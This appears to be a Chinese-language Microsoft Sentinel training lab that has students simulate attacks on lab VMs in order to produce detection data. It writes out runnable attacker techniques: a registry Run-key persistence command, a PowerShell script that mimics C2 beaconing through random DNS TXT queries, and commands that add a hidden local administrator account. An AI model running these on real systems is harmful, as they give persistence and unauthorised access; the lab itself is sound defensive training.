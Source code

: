 ﻿---
lab:
    title: '练习 5 - 进行攻击'
    module: '模块 7 - 使用 Microsoft Sentinel 创建检测并执行调查'
---

# 模块 7 - 实验室 1 - 练习 5 - 进行攻击


### 任务 1：攻击配置了 Defender for Endpoint 的 Windows。

在此任务中，你将在配置了 Microsoft Defender for Endpoint 的主机执行攻击。

1. 使用以下密码以管理员身份登录到 WIN1 虚拟机：**Pa55w.rd**。  

2. 在任务栏的搜索框中，输入“*Command*”。  命令提示符将显示在搜索结果中。  右键单击命令提示符，并选择“**以管理员身份运行**”。在出现的“**用户帐户控件**”窗口中选择“**是**”，以允许应用运行。

3. 在命令提示符中，在每一行中输入命令，并在每一行后按 Enter 键：

```Command
cd \
mkdir temp
cd temp
```
4. 攻击 1 - 复制并运行此命令：

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻击 3 - 复制并运行此命令：

```Command
notepad c2.ps1
```
选择“**是**”来创建一个新文件，并将下面的 PowerShell 脚本复制到 *c2.ps1* 中。

>**备注**：粘贴到虚拟机中的内容可能有长度限制。如果无法直接从说明中复制，请将此代码分为三部分进行粘贴，以便将所有脚本粘贴到虚拟机中。  确保脚本在记事本 *c2.ps1* 文件中的外观与在这些说明中一致。

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)

$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
         $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }

    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

在“**记事本**”菜单中，选择“**文件**”，然后选择“**保存**”。在“命令提示符”窗口中，在每一行中输入以下命令，并在每一行后按 Enter 键。**备注**：你将看到解析错误。这在预料之中。

```Command
powershell
.\c2.ps1
```

>**重要提示**：请勿关闭此窗口。让此命令/powershell 脚本在后台运行。该命令需要在数小时内生成日志条目。在此脚本运行期间，你可以继续进行下一项任务和下一个练习。此任务创建的数据稍后将在威胁搜寻中使用。此过程不会创造大量的数据或处理。


### 任务 2：攻击配置了 Sysmon 的 Windows

在此任务中，你将在配置了安全事件连接器和 Sysmon 的主机上执行攻击。

1. 以管理员身份使用密码登录到 WIN2 虚拟机：**Pa55w.rd**。  

2. 在任务栏的搜索框中，输入“*CMD*”。 命令提示符将显示在搜索结果中。  右键单击命令提示符，并选择“**以管理员身份运行**”。  接收显示的任何用户帐户控制提示。

3. 在命令提示符中，在每一行中输入命令，并在每一行后按 Enter 键：

```Command
cd \
mkdir temp
cd \temp
```

4. 攻击 1 - 将此命令复制到命令提示符应用并运行此命令：

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

>**备注**：我们使用的是与 WIN1 中相同的持久性策略，但我们将在下一练习中使用其他检测。

5. 攻击 2 - 复制并运行此命令，在每一行中输入命令，并在每一行后按 Enter 键：

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

## 转到练习 6
